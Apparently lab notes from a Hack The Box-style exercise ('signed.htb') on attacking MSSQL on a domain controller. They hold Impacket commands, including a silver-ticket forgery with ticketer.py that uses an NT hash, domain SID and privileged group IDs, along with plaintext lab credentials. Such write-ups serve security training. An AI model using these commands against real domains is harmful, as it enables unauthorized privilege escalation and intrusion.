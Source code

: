```
mssqlclient.py -p 1433 EXAMPLE/Administrator@DC01 -windows-auth
```

```
sudo ntpdate time.google.com
mssqlclient.py -k -no-pass dc01.signed.htb -windows-auth
ticketer.py -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn MSSQLSvc/DC01.signed.htb:1433 -groups 1105,512,519 -user-id 1103 mssqlsvc
```

### Kerberos
```sh
export KRB5CCNAME=.ccache
mssqlclient.py -k -no-pass DC01.SIGNED.HTB
```


if you got 
`The login is from an untrusted domain and cannot be used with Integrated authentication.`
Then give it the domain before the username
```
mssqlclient.py 'signed.htb/mssqlsvc:purPLE9795!@@10.129.123.188' -windows-auth
```